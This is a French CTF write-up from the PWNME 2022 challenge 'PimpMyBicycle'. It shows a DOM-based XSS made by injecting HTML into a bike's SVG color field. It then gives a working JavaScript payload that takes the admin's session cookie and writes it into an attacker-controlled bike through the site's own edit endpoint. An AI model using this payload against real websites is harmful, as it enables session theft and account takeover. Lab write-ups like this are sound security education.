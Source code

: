 ```yaml
---
title: "🇫🇷 PWNME - PimpMyBicycle"
date: 2022-07-07
draft: false
tags: [web]
# image: "/image/blog-pic.jpg"
description: "XSS DOM-based dans un SVG"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


[Go back to write-ups list](../)

*This write-up is in French because it's a French CTF, sowwy*

> **Category:** Web
> 
> **Creator:** Eteck
> 
> **Description:**
> 
> Your friend just had an idea: allow everyone to create the bike of their dream ! He asks you to verify if his website is secure, since you're the best pentester he knows.
>
> **Find a way to access the admin page**
>
> *note: admin doesn't have access to the internet ! He is behind a very restrictive firewall, and he can only be on his own website*

Je vais sauter la partie où on crée un compte pour aller directement à l'interface intéressante : l'interface où l'on peut pimper notre vélo !

![Page web](/image/pwnme22/pmb_intro.png)

Au delà de l'éditeur de vélo à gauche, on a 3 fonctionnalités : créer un vélo aléatoire, sauvegarder un nouveau vélo et sauvegarder le vélo actuel (le modifier en quelques sortes).

En lisant le Javascript de la page, on peut trouver les fonctions qui s'occupent d'enregistrer le vélo :

```js
function saveBuild() {
  let result = [];
  for (const customElement of editor.getCustomElements()) {
    result.push({
      id: customElement.element.id,
      slot: customElement.slot.id,
      colors: customElement.colors,
    });
  }
  return JSON.stringify(result);
}

function save() {
  $.post("/?page=preview&action=saveBike", { data: saveBuild() }).then(
    (id) => (document.location = "/?page=preview&id=" + id)
  );
}

function edit() {
  $.post("/?page=preview&action=editBike&id=" + getParamId(), {
    data: saveBuild(),
  }).then(() => document.location.reload(false));
}
```

Comme on peut s'en douter, les paramètres de cette classe `CustomElement` qui sont sauvegardés (notamment la couleur) seront ensuite réinjectés dans la page lorsque que l'on charge un vélo. Pour vérifier cette hypothèse, j'ai tenté d'injecter du HTML dans un des attribut couleur, puis de sauvegarder le vélo.

```js
editor.getCustomElements()[1].colors[0] = '"></path></svg><span>coucou les gens</span>'
```

Et bingo ! Le texte est apparu à la place de la roue !

![DOM based](/image/pwnme22/pmb_dom.png)

Si on met une balise `<script>` à la place du `<span>`, on peut facilement deviner que le script sera exécuté. Il en est de même sur la page de preview du vélo que l'admin consulte lorsqu'on lui soumet un vélo.

Réfléchissons maintenant à un script qui pourrait récupérer le cookie de session de l'admin. Beaucoup se sont fait avoir, mais j'ai lu la description donc je sais qu'on ne peux pas l'envoyer à un site externe. Par contre, on peut probablement demander à l'admin d'éditer un de nos vélos. J'ai donc récupérer le JSON qui est envoyé lorsqu'on sauvegarde un vélo, et j'ai écrit un script pour y intégrer le cookie de session :

```js
let data = JSON.stringify([{
    "id":"roue1",
    "slot":0,
    "colors": ["\"></path></svg><h1>Pour Cyxo : " + document.cookie + "</h1>","#FFFFFF"]
}]);

$.post("/?page=preview&action=editBike&id=150", {
    data: data,
}).then(() => document.location.reload(false));
```

*150 étant l'id d'un vélo aléatoire créé précédemment*

En rendant ce payload moche et sur une seule ligne, on peut l'insérer dans une balise script de notre vélo malveillant et l'envoyer en production à l'administrateur. Après un cours délai, l'admin nous informe gentillement que notre vélo va être créé.

![Nice admin, nice](/image/pwnme22/pmb_admin.png)

Ce qui veut dire que l'admin a exécuté notre script ! On peut alors retourner sur le fameux vélo #150, et surprise :

![Miam les cookies](/image/pwnme22/pmb_cookie.png)

En volant ce cookie, on a désormais accès à l'interface d'administration et au flag !

[Go back to write-ups list](../)